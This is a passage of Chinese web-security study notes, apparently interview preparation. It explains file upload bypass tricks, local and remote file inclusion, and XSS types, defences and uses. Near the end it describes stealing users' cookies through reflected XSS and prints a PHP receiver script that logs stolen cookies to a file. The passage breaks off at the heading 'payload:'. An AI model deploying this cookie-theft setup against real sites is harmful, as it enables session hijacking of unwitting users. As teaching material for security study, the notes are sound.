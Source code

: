 1.php .jpg 空格二进制20改为00
还有一些图片木马之类的，需要结合文件包含漏洞来解析****

## 文件包含漏洞

### (1)文件包含漏洞原理

**文件包含是指在程序编写过程中，为了减少重复的代码编写操作，将重复的代码采取从外部引入的方式，但如果包含被攻击者所控制，就可以通过包含精心构造的脚本文件来获取控制权，一般分为本地包含和远程包含，常出现在php等脚本语言中，包含命令主要有include,include_once,require,require_once。**

### (2)远程文件包含和本地文件包含的区别

**本地文件包含只能包含本地的文件。** 远程文件包含要包含其他服务器的文件。若PHP配置选项allow_url_include为ON的话，则include函数是可以加载远程文件的。**

### (3) include,include_once,require,require_once这几个函数区别

**Include() #找不到被包含的文件时只会产生警告，脚本继续运行**Require() #找不到被包含的文件时会发生致命错误，停止脚本运行**Include_once() #与include()类似，唯一区别是该文件中代码已经被包含，则不会再次包含**Require_once() #与require()类似，……（同上）**

### (4)文件包含漏洞修复

**一般的防护手段包括 对文件进行敏感内容查找 或者限制文件类型等**

## xss漏洞（跨站脚本攻击）

### xss漏洞原理及防护

**前提：当应用程序没有对用户提交的内容进行验证和重新编码，而是直接呈现给网站的访问者时，就可能会触发XSS攻击
 原理：攻击者利用相应的漏洞，在页面中嵌入JS脚本，用户访问含恶意脚本代码的页面或打开收到的URL链接时，用户浏览器自动加载执行恶意代码，达到攻击的目的。**

### 防护手段:

**(1)过滤危险字符，输入长度限制，HTML实体编码等。
(2)使用黑名单
对于反射型和存储型，可以在数据返回客户端浏览器时，将敏感字符进行转义；
对于DOM型，可以使用上下文敏感数据编码。
(3)xss类型？哪种类型危害最大？
存储型、dom型、反射型
存储型危害最大
(4)为什么存储型xss危害最大?
它是一种持久化的攻击，因为其恶意代码直接存储到了网站服务器中。
(5)类型区别**反射型：经过后端，不经过数据库；**存储型：经过后端，经过数据库；**DOM型：不经过后端。**反射型是一次性的，用户访问带xss代码的请求时，服务器接受请求并处理，之后将带有xss代码的数据返回给浏览器，浏览器解析执行；**存储型中提交的恶意内容会被永久存储在数据库，攻击行为伴随攻击数据一直存在；**DOM型的触发基于浏览器对DOM数据的解析来完成，完全是客户端的事。**(6)标签：`<script>` `<img>` `<javascript>`**(7)利用：窃取管理员账号或者cookie；窃取个人信息或登录账号；发送钓鱼邮件。**(8)如何用xss（反射型）获取用户的cookie值：首先写一段js脚本，会用到document.get【cookie值】，然后把这个恶意脚本放到网站中的一些地方诱骗点击，点击后cookie值会被传送到我的电脑中来。**
在自己的服务器上放入如下代码：

<?php
    $cookie = $_GET['cookie'];
    file_put_contents("cookie.txt",$cookie);
    echo '已成功获取cookie信息';
?>

payload：
